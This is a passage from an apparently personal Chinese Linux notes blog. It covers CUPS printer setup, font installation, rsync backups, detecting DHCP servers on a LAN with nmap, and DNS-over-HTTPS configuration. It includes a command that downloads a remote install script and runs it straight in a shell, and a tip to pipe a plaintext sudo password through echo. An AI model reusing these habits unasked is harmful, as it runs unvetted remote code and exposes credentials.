非自由许可协议下的预构建 PPD 文件。</span><br><span class="line">Foomatic 的 PPD 文件可能还需要额外的过滤器，比如 min12xxwAUR。 </span><br><span class="line"></span><br><span class="line">非 PDF 打印机需要安装 ghostscript包。对于 PostScript 打印机可能还需要安装 gsfonts包。 </span><br><span class="line"></span><br><span class="line">Gutenprint</span><br><span class="line">Gutenprint 项目 提供了可与 CUPS 和 GIMP 搭配使用的佳能(<span class="keyword">Canon</span>)、爱普生(Epson)、利盟(Lexmark)、索尼(Sony)、奥林巴斯(Olympus) 以及 PCL 打印机的驱动程序。</span><br></pre></td></tr></table></figure>
<h4 id="BROTHER"><a href="#BROTHER" class="headerlink" title="BROTHER"></a><strong>BROTHER</strong></h4><p>驱动下载地址：<a href="https://support.brother.com/g/b/countrytop.aspx?c=hk&amp;lang=zh" target="_blank" rel="noopener">Brother Printer</a></p>
<h4 id="爱普生——EPSON"><a href="#爱普生——EPSON" class="headerlink" title="爱普生——EPSON"></a><strong>爱普生——EPSON</strong></h4><p>驱动下载地址：</p>
<p><a href="http://download.ebz.epson.net/dsc/search/01/search/?OSC=LX" target="_blank" rel="noopener">EPSON LINUX DRIVER</a></p>
<p><a href="https://www.epson.com.cn/Apps/tech_support/GuideDrive.aspx?columnid=384&amp;sort-1=376&amp;product-2=378" target="_blank" rel="noopener">EPSON CN(选择UOS系统)</a></p>
<figure class="highlight css"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="selector-tag">e</span><span class="selector-class">.g</span>.<span class="selector-pseudo">:M105</span></span><br><span class="line">首先安装<span class="selector-tag">EPSON</span> <span class="selector-tag">UOS</span>驱动。</span><br><span class="line">然后:</span><br><span class="line"><span class="selector-tag">sudo</span> <span class="selector-tag">apt</span> <span class="selector-tag">install</span> <span class="selector-tag">cups</span> <span class="selector-tag">printer-driver-escpr</span></span><br></pre></td></tr></table></figure>
<h4 id="奔图——Pantum"><a href="#奔图——Pantum" class="headerlink" title="奔图——Pantum"></a><strong>奔图——Pantum</strong></h4><p>驱动下载（国际版的驱动新）：</p>
<p><a href="https://global.pantum.com/support/download/driver/" target="_blank" rel="noopener">国际版</a> · <a href="https://www.pantum.cn/support/download/driver/" target="_blank" rel="noopener">国产系统版本</a></p>
<h4 id="联想——Lenovo"><a href="#联想——Lenovo" class="headerlink" title="联想——Lenovo"></a><strong>联想——Lenovo</strong></h4><p><a href="https://www.lenovoimage.com/index.php/services/servers_drivers" target="_blank" rel="noopener">驱动下载</a></p>
<figure class="highlight armasm"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="symbol">Lenovo</span> M7675DXF Debian12开箱即用</span><br><span class="line"><span class="symbol">Lenovo</span> M7615DNA CUPS驱动请选择<span class="keyword">Brother </span>DCP-<span class="number">8080</span><span class="meta">DN</span></span><br></pre></td></tr></table></figure>
<h4 id="惠普——HP"><a href="#惠普——HP" class="headerlink" title="惠普——HP"></a><strong>惠普——HP</strong></h4><p><a href="https://developers.hp.com/hp-linux-imaging-and-printing" target="_blank" rel="noopener">HP Linux Imaging and Printing</a></p>
<figure class="highlight properties"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">Debian</span> <span class="string">12:</span></span><br><span class="line"><span class="attr">sudo</span> <span class="string">apt install hplip</span></span><br><span class="line"><span class="attr">sudo</span> <span class="string">hplip-setup</span></span><br><span class="line"><span class="attr">记得使用SUDO，否则检查不到USB状态</span></span><br></pre></td></tr></table></figure>
<h4 id="打印机管理GUI"><a href="#打印机管理GUI" class="headerlink" title="打印机管理GUI"></a>打印机管理GUI</h4><p><code>sudo apt install system-config-printer</code></p>
<h4 id="CUPS"><a href="#CUPS" class="headerlink" title="CUPS"></a>CUPS</h4><p>自行安装cups通用打印机驱动或者到打印机生产商官网下载驱动。</p>
<figure class="highlight properties"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br><span class="line">41</span><br><span class="line">42</span><br><span class="line">43</span><br><span class="line">44</span><br><span class="line">45</span><br><span class="line">46</span><br><span class="line">47</span><br><span class="line">48</span><br><span class="line">49</span><br><span class="line">50</span><br><span class="line">51</span><br><span class="line">52</span><br><span class="line">53</span><br><span class="line">54</span><br><span class="line">55</span><br><span class="line">56</span><br><span class="line">57</span><br><span class="line">58</span><br><span class="line">59</span><br><span class="line">60</span><br><span class="line">61</span><br><span class="line">62</span><br><span class="line">63</span><br><span class="line">64</span><br><span class="line">65</span><br><span class="line">66</span><br><span class="line">67</span><br><span class="line">68</span><br><span class="line">69</span><br><span class="line">70</span><br></pre></td><td class="code"><pre><span class="line"><span class="attr">cups</span>:<span class="string"></span></span><br><span class="line"><span class="attr">打印支持dnssd的打印机</span></span><br><span class="line"><span class="attr">lpinfo</span> <span class="string">--include-schemes dnssd -v</span></span><br><span class="line"></span><br><span class="line"><span class="attr">列出驱动：</span></span><br><span class="line"><span class="attr">lpinfo</span> <span class="string">-m</span></span><br><span class="line"></span><br><span class="line"><span class="attr">lpinfo</span> <span class="string">-v 可以列出已连接打印机的 URI ，加上 -m 选项可列出所有系统上安装的驱动型号</span></span><br><span class="line"></span><br><span class="line"><span class="meta">为IP</span> <span class="string">11.22.33.44添加everywhere通用驱动</span></span><br><span class="line"><span class="attr">lpadmin</span> <span class="string">-p printername -E -v ipp://11.22.33.44/ipp/print -m everywhere</span></span><br><span class="line"><span class="meta">格式：lpadmin</span> <span class="string">-p queue_name -E -v uri -m model</span></span><br><span class="line"></span><br><span class="line"><span class="attr">添加打印机和驱动</span></span><br><span class="line"><span class="attr">lpadmin</span> <span class="string">-p printername -E -v socket://11.22.33.44 -m drv:///sample.drv/laserjet.ppd</span></span><br><span class="line"><span class="meta">对于免驱动打印队列（Apple</span> <span class="string">AirPrint 或 IPP Everywhere）：</span></span><br><span class="line"><span class="attr">lpadmin</span> <span class="string">-p AirPrint -E -v "ipp://10.0.1.25/ipp/print" -m everywhere  </span></span><br><span class="line"><span class="meta">指定一个</span> <span class="string">PPD 文件而不是型号：</span></span><br><span class="line"><span class="attr">lpadmin</span> <span class="string">-p Test_Printer -E -v "ipp://10.0.1.3/ipp/print" -m pxlmono.ppd    </span></span><br><span class="line"><span class="attr">注意：</span></span><br><span class="line">    <span class="meta">指定</span> <span class="string">PPD 时，请只使用文件名，而不要用完整路径（例如，应该使用 pxlmono.ppd 而不是 /usr/share/ppd/cupsfilters/pxlmono.ppd）。或者也可通过 -P 命令行开关使用完整路径。</span></span><br><span class="line">    <span class="meta">到2021年时，许多新款打印机支持免驱打印设置。如上述第二个例子一样指定</span> <span class="string">-m everywhere，即可定义打印机，并通过查询网络上的打印机在 /etc/cups/ppd/ 中生成 .ppd 文件。</span></span><br><span class="line"></span><br><span class="line"><span class="attr">设置默认打印机：</span></span><br><span class="line"><span class="attr">lpoptions</span> <span class="string">-d queue_name</span></span><br><span class="line"></span><br><span class="line"><span class="attr">列出选项：</span></span><br><span class="line"><span class="attr">lpoptions</span> <span class="string">-p queue_name -l</span></span><br><span class="line"></span><br><span class="line"><span class="attr">设定一个选项：</span></span><br><span class="line"><span class="attr">poptions</span> <span class="string">-p queue_name -o option=value</span></span><br><span class="line"></span><br><span class="line"><span class="attr">检查队列状态：</span></span><br><span class="line"><span class="attr">lpstat</span> <span class="string">-s</span></span><br><span class="line"><span class="attr">lpstat</span> <span class="string">-p queue_name</span></span><br><span class="line"></span><br><span class="line"><span class="attr">停用打印机：</span></span><br><span class="line"><span class="attr">cupsdisable</span> <span class="string">queue_name</span></span><br><span class="line"><span class="attr">启用打印机：</span></span><br><span class="line"><span class="attr">cupsenable</span> <span class="string">queue_name</span></span><br><span class="line"></span><br><span class="line"><span class="attr">设定打印机以接受任务：</span></span><br><span class="line"><span class="attr">cupsaccept</span> <span class="string">queue_name</span></span><br><span class="line"></span><br><span class="line"><span class="attr">移除打印机：</span></span><br><span class="line"><span class="attr">cupsreject</span> <span class="string">queue_name——首先将其设置为拒绝所有传入的条令</span></span><br><span class="line"><span class="attr">cupsdisable</span> <span class="string">queue_name——然后禁用它</span></span><br><span class="line"><span class="attr">lpadmin</span> <span class="string">-x queue_name——最后移除</span></span><br><span class="line"></span><br><span class="line"><span class="attr">打印文件：</span></span><br><span class="line"><span class="attr">lpr</span> <span class="string">file</span></span><br><span class="line"></span><br><span class="line"><span class="attr">打印17次：</span></span><br><span class="line"><span class="attr">lpr</span> <span class="string">-# 17 file</span></span><br><span class="line"><span class="attr">print</span> <span class="string">the result of a command. The -p switch adds a header：</span></span><br><span class="line"><span class="attr">echo</span> <span class="string">'Hello, world!' | lpr -p</span></span><br><span class="line"><span class="attr">检查队列：</span></span><br><span class="line"><span class="attr">lpq</span></span><br><span class="line"><span class="attr">lpq</span> <span class="string">-a # on all queues</span></span><br><span class="line"><span class="attr">清除队列：</span></span><br><span class="line"><span class="attr">remove</span> <span class="string">last entry only：</span></span><br><span class="line"><span class="attr">lprm</span></span><br><span class="line"><span class="attr">remove</span> <span class="string">all entries：</span></span><br><span class="line"><span class="attr">lprm</span> <span class="string">-</span></span><br><span class="line"><span class="attr">查看墨水/粉量：</span></span><br><span class="line"><span class="attr">apt</span> <span class="string">install ink</span></span><br><span class="line"><span class="meta">将用户添加到</span> <span class="string">lp 用户组:</span></span><br><span class="line"><span class="attr">usermod</span> <span class="string">-aG lp &lt;user&gt;</span></span><br><span class="line"><span class="attr">注销登录后：</span></span><br><span class="line"><span class="attr">ink</span></span><br></pre></td></tr></table></figure>
<h3 id="Linux修改网卡名称"><a href="#Linux修改网卡名称" class="headerlink" title="Linux修改网卡名称"></a>Linux修改网卡名称</h3><figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">首先关闭网卡，然后：</span><br><span class="line">sudo<span class="built_in"> ip </span>link <span class="builtin-name">set</span> dev 【举例：ztwdjn27zy】 name 【举例：enp125s0f2】</span><br></pre></td></tr></table></figure>
<h3 id="Linux安装字体——包括WPS字体"><a href="#Linux安装字体——包括WPS字体" class="headerlink" title="Linux安装字体——包括WPS字体"></a>Linux安装字体——包括WPS字体</h3><p>安装字体：</p>
<p>将Windows字体复制到Linux的<code>/usr/share/fonts/custom-fonts/</code>(自己新建的文件夹)</p>
<p>然后<code>cd /usr/share/fonts/custom-fonts/</code></p>
<p><code>sudo chmod 775 ./*</code></p>
<p><code>sudo mkfontscale</code></p>
<p>这个我没用到 ：<code>sudo mkfontdir</code></p>
<p>这个是强制刷新缓存<code>sudo fc-cache -fv</code></p>
<p>查看已安装字体：<code>fc-list</code></p>
<p>下面是安装wps字体简介：</p>
<blockquote>
<p>WPS比较符合国人习惯，LibreOffice和Linux的适配性会更好，没有WPS烦人的更新提示和一些奇奇怪怪的bug。</p>
</blockquote>
<p>字体文件可以在Windows系统盘的Windows/fonts/里面找到。然后：<code>cp ./* /usr/share/fonts/</code></p>
<p>更新字体缓存：<code>fc-cache -fv</code></p>
<p>ST开头的是华文XX，比如华文中宋等。我个人只拷贝了：</p>
<figure class="highlight css"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="selector-tag">MTEXTRA</span><span class="selector-class">.TTF</span> <span class="selector-tag">STENCIL</span><span class="selector-class">.TTF</span> <span class="selector-tag">STHUPO</span><span class="selector-class">.TTF</span> <span class="selector-tag">STLITI</span><span class="selector-class">.TTF</span> <span class="selector-tag">STXIHEI</span><span class="selector-class">.TTF</span> <span class="selector-tag">STXINWEI</span><span class="selector-class">.TTF</span> <span class="selector-tag">symbol</span><span class="selector-class">.ttf</span> <span class="selector-tag">WINGDNG2</span><span class="selector-class">.TTF</span> <span class="selector-tag">STCAIYUN</span><span class="selector-class">.TTF</span> <span class="selector-tag">STFANGSO</span><span class="selector-class">.TTF</span> <span class="selector-tag">STKAITI</span><span class="selector-class">.TTF</span> <span class="selector-tag">STSONG</span><span class="selector-class">.TTF</span> <span class="selector-tag">STXINGKA</span><span class="selector-class">.TTF</span> <span class="selector-tag">STZHONGS</span><span class="selector-class">.TTF</span> <span class="selector-tag">wingding</span><span class="selector-class">.ttf</span> <span class="selector-tag">WINGDNG3</span><span class="selector-class">.TTF</span></span><br></pre></td></tr></table></figure>
<h3 id="Rsync备份磁盘（本地）"><a href="#Rsync备份磁盘（本地）" class="headerlink" title="Rsync备份磁盘（本地）"></a>Rsync备份磁盘（本地）</h3><blockquote>
<p><a href="https://zhuanlan.zhihu.com/p/624758678" target="_blank" rel="noopener">https://zhuanlan.zhihu.com/p/624758678</a></p>
<p><a href="https://blog.csdn.net/Luckiers/article/details/119217775" target="_blank" rel="noopener">https://blog.csdn.net/Luckiers/article/details/119217775</a></p>
<p><a href="https://baijiahao.baidu.com/s?id=1767368490362524638&amp;wfr=spider&amp;for=pc" target="_blank" rel="noopener">https://baijiahao.baidu.com/s?id=1767368490362524638&amp;wfr=spider&amp;for=pc</a></p>
</blockquote>
<p>我自己用的：</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#!/bin/bash</span></span><br><span class="line"><span class="comment"># rsync -aH -e ssh --delete --exclude Cache --link-dest=yesterdaystargetdir remote1:sourcedir todaystargetdir</span></span><br><span class="line">RSRC=<span class="string">"/yourdisk/RyanWS/"</span></span><br><span class="line">RDST=<span class="string">"./WSBackup/"</span></span><br><span class="line">rsync -avzH --delete <span class="string">"<span class="variable">$RSRC</span>"</span> <span class="string">"<span class="variable">$RDST</span>"</span></span><br><span class="line"><span class="built_in">echo</span> `date` &gt; rsync.time</span><br></pre></td></tr></table></figure>
<h3 id="以管理员权限运行或者图形化编辑系统文件-——-Run-as-admin-or-Edit-system-files"><a href="#以管理员权限运行或者图形化编辑系统文件-——-Run-as-admin-or-Edit-system-files" class="headerlink" title="以管理员权限运行或者图形化编辑系统文件 —— Run as admin or Edit system files"></a>以管理员权限运行或者图形化编辑系统文件 —— Run as admin or Edit system files</h3><ol>
<li><code>sudo</code>是最简单粗暴的，<code>su root</code>更是糙。<code>echo 【密码】 | sudo -S 【命令】</code>（<code>sudo</code>从标准输入读取密码）</li>
<li><code>gedit admin:///etc/default/grub &amp;</code> 或者 <code>gksu gedit /etc/grub.d/00_header /etc/grub.d/10_linux /etc/grub.d/30_os-prober</code> 可以用Gedit来编辑系统文件。</li>
<li><code>pkexec</code>用于桌面环境，比如<code>*.desktop</code>文件</li>
</ol>
<h3 id="办公室以及局域网安"><a href="#办公室以及局域网安" class="headerlink" title="办公室以及局域网安"></a>办公室以及局域网安</h3><h4 id="检测局域网中的DHCP服务器"><a href="#检测局域网中的DHCP服务器" class="headerlink" title="检测局域网中的DHCP服务器"></a>检测局域网中的DHCP服务器</h4><p>Wireshark过滤DHCP包：<code>bootp</code></p>
<p>1.检测端口67开放情况：<code>sudo nmap -sU -p 67 --script=dhcp-discover 192.168.1.0/24 -e enxa446b4906694</code></p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br></pre></td><td class="code"><pre><span class="line">Starting Nmap <span class="number">7.80</span> ( https:<span class="comment">//nmap.org ) at 2024-07-08 15:11 CST</span></span><br><span class="line">Nmap scan report <span class="keyword">for</span> <span class="number">192.168</span><span class="number">.1</span><span class="number">.1</span></span><br><span class="line">Host <span class="keyword">is</span> up (<span class="number">0.00049</span>s latency).</span><br><span class="line"></span><br><span class="line">PORT   STATE         SERVICE</span><br><span class="line"><span class="number">67</span>/udp open|filtered dhcps</span><br><span class="line">MAC Address: C4:<span class="number">70</span>:AB:C5:<span class="number">2</span>C:F7 (Unknown)</span><br><span class="line"></span><br><span class="line">Nmap scan report <span class="keyword">for</span> <span class="number">192.168</span><span class="number">.1</span><span class="number">.11</span></span><br><span class="line">Host <span class="keyword">is</span> up (<span class="number">0.00035</span>s latency).</span><br><span class="line"></span><br><span class="line">PORT   STATE         SERVICE</span><br><span class="line"><span class="number">67</span>/udp open|filtered dhcps</span><br><span class="line">MAC Address: A8:C9:<span class="number">8</span>A:<span class="number">21</span>:A2:<span class="number">9</span>D (Unknown)</span><br><span class="line"></span><br><span class="line">Nmap scan report <span class="keyword">for</span> <span class="number">192.168</span><span class="number">.1</span><span class="number">.13</span></span><br><span class="line">Host <span class="keyword">is</span> up (<span class="number">0.00065</span>s latency).</span><br><span class="line"></span><br><span class="line">PORT   STATE  SERVICE</span><br><span class="line"><span class="number">67</span>/udp closed dhcps</span><br><span class="line">MAC Address: D0:<span class="number">17</span>:C2:<span class="number">8</span>C:<span class="number">38</span>:FB (Asustek Computer)</span><br></pre></td></tr></table></figure>
<p>2.使用DHCP CLient（推荐）：<code>sudo dhclient -v -i enxa446b4906694</code></p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br></pre></td><td class="code"><pre><span class="line">Internet Systems Consortium DHCP Client <span class="number">4.4</span><span class="number">.1</span></span><br><span class="line">Copyright <span class="number">2004</span><span class="number">-2018</span> Internet Systems Consortium.</span><br><span class="line">All rights reserved.</span><br><span class="line">For info, please visit https:<span class="comment">//www.isc.org/software/dhcp/</span></span><br><span class="line"></span><br><span class="line">Listening on LPF/enxa446b4906694/a4:<span class="number">46</span>:b4:<span class="number">90</span>:<span class="number">66</span>:<span class="number">94</span></span><br><span class="line">Sending on   LPF/enxa446b4906694/a4:<span class="number">46</span>:b4:<span class="number">90</span>:<span class="number">66</span>:<span class="number">94</span></span><br><span class="line">Sending on   Socket/fallback</span><br><span class="line">Created duid <span class="string">"\000\001\000\001.\036N\232\244F\264\220f\224"</span>.</span><br><span class="line">DHCPDISCOVER on enxa446b4906694 to <span class="number">255.255</span><span class="number">.255</span><span class="number">.255</span> port <span class="number">67</span> <span class="built_in">int</span>erval <span class="number">3</span> (xid=<span class="number">0x878ade36</span>)</span><br><span class="line">DHCPOFFER of <span class="number">192.168</span><span class="number">.1</span><span class="number">.108</span> <span class="keyword">from</span> <span class="number">192.168</span><span class="number">.1</span><span class="number">.1</span></span><br><span class="line">DHCPREQUEST <span class="keyword">for</span> <span class="number">192.168</span><span class="number">.1</span><span class="number">.108</span> on enxa446b4906694 to <span class="number">255.255</span><span class="number">.255</span><span class="number">.255</span> port <span class="number">67</span> (xid=<span class="number">0x36de8a87</span>)</span><br><span class="line">DHCPACK of <span class="number">192.168</span><span class="number">.1</span><span class="number">.108</span> <span class="keyword">from</span> <span class="number">192.168</span><span class="number">.1</span><span class="number">.1</span> (xid=<span class="number">0x878ade36</span>)</span><br><span class="line">bound to <span class="number">192.168</span><span class="number">.1</span><span class="number">.108</span> -- renewal <span class="keyword">in</span> <span class="number">13135</span> seconds.</span><br></pre></td></tr></table></figure>
<h4 id="设置DoH（DNS-over-HTTP）"><a href="#设置DoH（DNS-over-HTTP）" class="headerlink" title="设置DoH（DNS over HTTP）"></a>设置DoH（DNS over HTTP）</h4><blockquote>
<p><a href="https://sdns.360.net/dnsPublic.html#course" target="_blank" rel="noopener">https://sdns.360.net/dnsPublic.html#course</a></p>
</blockquote>
<p>4个方法(推荐1和2)：</p>
<ol>
<li><p>传统DNS：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br><span class="line">17</span><br><span class="line">18</span><br><span class="line">19</span><br><span class="line">20</span><br><span class="line">21</span><br><span class="line">22</span><br><span class="line">23</span><br><span class="line">24</span><br><span class="line">25</span><br><span class="line">26</span><br><span class="line">27</span><br><span class="line">28</span><br><span class="line">29</span><br><span class="line">30</span><br><span class="line">31</span><br><span class="line">32</span><br><span class="line">33</span><br><span class="line">34</span><br><span class="line">35</span><br><span class="line">36</span><br><span class="line">37</span><br><span class="line">38</span><br><span class="line">39</span><br><span class="line">40</span><br></pre></td><td class="code"><pre><span class="line">一、通过网络管理器来设置DNS（适用有图形界面的）：</span><br><span class="line"><span class="number">1.</span>单击“系统 &gt; 首选项 &gt; 网络连接”。 选择要为其配置<span class="number">360</span>安全DNS的连接。例如：</span><br><span class="line">- 要更改以太网连接的设置，请选择“ 有线” 选项卡，然后在列表中选择您的网络接口。通常称为eth0。</span><br><span class="line">- 要更改无线连接的设置，请选择“ 无线” 选项卡，然后选择适当的无线网络。</span><br><span class="line"><span class="number">2.</span>单击“ 编辑”，然后在出现的窗口中选择“ IPv4设置”选项卡。</span><br><span class="line"><span class="number">3.</span>如果选中的方法是“ 自动（DHCP）”，请打开下拉列表，然后选择 “ 仅自动（DHCP）地址“。如果方法设置为其他，请勿更改。</span><br><span class="line"><span class="number">4.</span>在DNS服务器字段中，输入<span class="number">360</span>安全DNS IP地址，以逗号分隔：</span><br><span class="line">电信、移动、铁通：首选地址：<span class="number">101.226</span><span class="number">.4</span><span class="number">.6</span>，备用地址：<span class="number">218.30</span><span class="number">.118</span><span class="number">.6</span></span><br><span class="line">联通：首选地址：<span class="number">123.125</span><span class="number">.81</span><span class="number">.6</span>，备用地址：<span class="number">140.207</span><span class="number">.198</span><span class="number">.6</span></span><br><span class="line"><span class="number">5.</span>请根据您所在的运营商，选择对应的DNS服务地址。</span><br><span class="line"><span class="number">6.</span>测试您的设置是否正常工作。使用dig www<span class="number">.360</span>.cn 验证。</span><br><span class="line">对要更改的其他网络连接重复该过程。</span><br><span class="line"></span><br><span class="line">二、适用服务器这类无图形界面的：</span><br><span class="line"><span class="number">1.</span>如果您的Linux版不使用网络管理器，则DNS是通过/etc/resolv.conf指定的。</span><br><span class="line">编辑/etc/resolv.conf : sudo vi /etc/resolv.conf</span><br><span class="line"><span class="number">2.</span>如果出现任何的nameserver，请记下IP地址以备将来参考。</span><br><span class="line"><span class="number">3.</span>使用以下指令来替代原有nameserver，或添加以下指令（以电信网络为例）：</span><br><span class="line">nameserver <span class="number">101.226</span><span class="number">.4</span><span class="number">.6</span></span><br><span class="line">nameserver <span class="number">218.30</span><span class="number">.118</span><span class="number">.6</span></span><br><span class="line">电信、移动、铁通：首选地址：<span class="number">101.226</span><span class="number">.4</span><span class="number">.6</span>，备用地址：<span class="number">218.30</span><span class="number">.118</span><span class="number">.6</span></span><br><span class="line">联通：首选地址：<span class="number">123.125</span><span class="number">.81</span><span class="number">.6</span>，备用地址：<span class="number">140.207</span><span class="number">.198</span><span class="number">.6</span></span><br><span class="line">请根据您所在的运营商，选择对应的DNS服务地址。</span><br><span class="line"><span class="number">4.</span>保存并退出。</span><br><span class="line"><span class="number">5.</span>在完成步骤 <span class="number">4</span> 后，根据第 <span class="number">4</span> 步的操作不同，出现如下图 ① ②不同的<span class="string">"Internet 协议版本4（TCP/IPv4）属性"</span>窗口，如图所示在红色框选区域输入DNS 为您提供的公众 DNS 服务地址:</span><br><span class="line">电信、移动、铁通：首选地址：<span class="number">101.226</span><span class="number">.4</span><span class="number">.6</span>，备用地址：<span class="number">218.30</span><span class="number">.118</span><span class="number">.6</span></span><br><span class="line">联通：首选地址：<span class="number">123.125</span><span class="number">.81</span><span class="number">.6</span>，备用地址：<span class="number">140.207</span><span class="number">.198</span><span class="number">.6</span></span><br><span class="line">请根据您所在的运营商，选择对应的DNS服务地址。</span><br><span class="line"><span class="number">6.</span>测试您的设置是否正常工作。使用dig www<span class="number">.360</span>.cn 验证。</span><br><span class="line"><span class="number">7.</span>此外，如果您正在使用会覆盖/etc/resolv.conf中设置的DHCP客户端软件，则需要通过编辑客户端的配置文件来设置DNS。</span><br><span class="line">三、在Debian服务器上配置DHCP客户端软件（附）:</span><br><span class="line"><span class="number">1.</span>备份/etc/resolv.conf : sudo cp /etc/resolv.conf /etc/resolv.conf.<span class="built_in">auto</span></span><br><span class="line"><span class="number">2.</span>编辑/etc/dhcp/dhclient.conf（或/etc/dhcp3/dhclient.conf）: sudo vi /etc/dhcp*/dhclient.conf</span><br><span class="line"><span class="number">3.</span>如果有一行指令是，request后仅有domain-name-servers， 则删除该行。</span><br><span class="line"><span class="number">4.</span>将该行指令替换为以下行，或添加以下行（以电信网络为例）： prepend domain-name-servers <span class="number">101.226</span><span class="number">.4</span><span class="number">.6</span>, <span class="number">218.30</span><span class="number">.118</span><span class="number">.6</span>;</span><br><span class="line">电信、移动、铁通：首选地址：<span class="number">101.226</span><span class="number">.4</span><span class="number">.6</span>，备用地址：<span class="number">218.30</span><span class="number">.118</span><span class="number">.6</span></span><br><span class="line">联通：首选地址：<span class="number">123.125</span><span class="number">.81</span><span class="number">.6</span>，备用地址：<span class="number">140.207</span><span class="number">.198</span><span class="number">.6</span></span><br><span class="line">请根据您所在的运营商，选择对应的DNS服务地址。</span><br><span class="line"><span class="number">5.</span>重新启动您正在使用的所有Internet客户端。</span><br><span class="line"><span class="number">6.</span>测试您的设置是否正常工作。使用dig www<span class="number">.360</span>.cn 验证。</span><br></pre></td></tr></table></figure>
</li>
<li><p>浏览器配置（以火狐为例）：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="number">1.</span> 从 Firefox 菜单栏中点击 【设置】。 </span><br><span class="line"><span class="number">2.</span> 搜索框中输入“DNS”，点击【网络设置】中的【设置】按钮(新版本在隐私与安全中)。 </span><br><span class="line"><span class="number">3.</span> 在设置页面的底部，找到并勾选“启用基于HTTPS的DNS”，选择“自定义”的提供商，并输入接口地址： https:<span class="comment">//doh.360.cn，点击【确定】。</span></span><br></pre></td></tr></table></figure>
</li>
<li><p>systemd-resolved（我没试过）:</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br></pre></td><td class="code"><pre><span class="line"><span class="number">1.</span>登入linux主机系统。</span><br><span class="line"><span class="number">2.</span>编辑文件/etc/systemd/resolved.conf，将其内容修改为：</span><br><span class="line">[Resolve]</span><br><span class="line">DNS=<span class="number">101.198</span><span class="number">.198</span><span class="number">.198</span></span><br><span class="line">DNS=<span class="number">101.198</span><span class="number">.199</span><span class="number">.200</span></span><br><span class="line">DNSOverTLS=yes</span><br><span class="line"><span class="number">3.</span>执行命令 systemctl restart systemd-resolved重启服务。</span><br></pre></td></tr></table></figure>
</li>
<li><p>360SDNS CLI 客户端(没必要)：<code>sh -c &quot;$(curl -sL https://sdns.360.net/install)&quot;</code></p>
</li>
</ol>
<figure class="highlight elixir"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br></pre></td><td class="code"><pre><span class="line"><span class="comment">#### 国内加密 DNS（DoH）分享</span></span><br><span class="line">阿里 DoH 地址<span class="symbol">:https</span><span class="symbol">://dns</span>.alidns.com/dns-query</span><br><span class="line">腾讯 DoH 地址<span class="symbol">:https</span><span class="symbol">://doh</span>.pub/dns-query</span><br><span class="line"><span class="number">360</span> DoH 地址<span class="symbol">:https</span><span class="symbol">://doh</span>.<span class="number">360</span>.cn/dns-query</span><br><span class="line"></span><br><span class="line"><span class="comment">#### 国外加密 DNS（DoH）分享</span></span><br><span class="line">Google DoH 地址<span class="symbol">:https</span><span class="symbol">://dns</span>.google/dns-query</span><br><span class="line">Cloudflare DoH 地址<span class="symbol">:https</span><span class="symbol">://cloudflare-dns</span>.com/dns-query</span><br><span class="line">IBM Quad9 DoH 地址<span class="symbol">:</span></span><br><span class="line"><span 